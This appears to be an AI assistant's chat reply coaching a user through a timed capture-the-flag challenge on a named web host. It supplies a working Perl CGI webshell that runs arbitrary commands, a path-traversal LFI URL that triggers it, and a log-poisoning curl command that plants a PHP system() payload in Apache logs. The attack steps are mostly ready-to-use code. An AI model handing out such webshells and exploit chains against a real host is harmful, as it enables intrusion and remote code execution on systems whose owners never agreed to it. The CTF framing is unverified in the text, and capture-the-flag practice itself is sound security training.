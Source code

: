 Yes, your plan is solid. Here’s how you can proceed **quickly** within the 30-minute CTF:

---

### ✅ **Objective: Use Webshell via LFI to Get the Flag**

If **RCE is not directly exposed** but **LFI is available**, **you can still achieve RCE** by using **Log Poisoning** or **webshell planting**, then trigger it via LFI.

---

## 💥 PLAN:

### 1. **If File Upload + RCE (webshell) is Available**

- Upload a simple **Perl, PHP, or Bash** webshell (depending on what the server accepts).

#### Example: Perl Webshell (backdoor.pl)

```perl
#!/usr/bin/perl
use CGI;
print "Content-type: text/html\n\n";
my $q = new CGI;
my $cmd = $q->param('cmd');
print "<pre>";
print `$cmd`;
print "</pre>";
```

- Upload this and take note of its location (e.g., `/uploads/backdoor.pl`).

---

### 2. **Use LFI to Trigger the Webshell**

If you **can't directly access** the uploaded shell due to routing or path restrictions, **trigger it using LFI**.

#### Example:

```
http://hacksmith.webhop.me:5565/?page=../../../../../../var/www/html/uploads/backdoor.pl&cmd=cat /home/ctf/flag.txt
```

> You’re using the LFI endpoint to **execute the uploaded shell** and **pass commands via GET param**.

---

### 3. **If Webshell Doesn’t Work, Use LFI for Log Poisoning**

If file upload is not working or blocked, try **log poisoning**:

- Inject your payload into access logs:

```bash
curl "http://hacksmith.webhop.me:5565" -A "<?php system($_GET['cmd']); ?>"
```

- Then access via LFI:

```bash
http://hacksmith.webhop.me:5565/?page=../../../../var/log/apache2/access.log&cmd=cat /home/ctf/flag.txt
```

---

### 4. **Confirm with `cat` or `ls` Commands**

Try common flag locations:

```bash
cmd=ls /home/ctf/
cmd=cat /home/ctf/flag.txt
```

---

## 🏁 Final Objective: Get Output Like:

```
FLAG: P3RL_B3AST
```

Take screenshot & save it for submission.

---

Let me know if you're limited to **Perl only** — I’ll modify shell accordingly. Good luck, Gaurav — use your time wisely!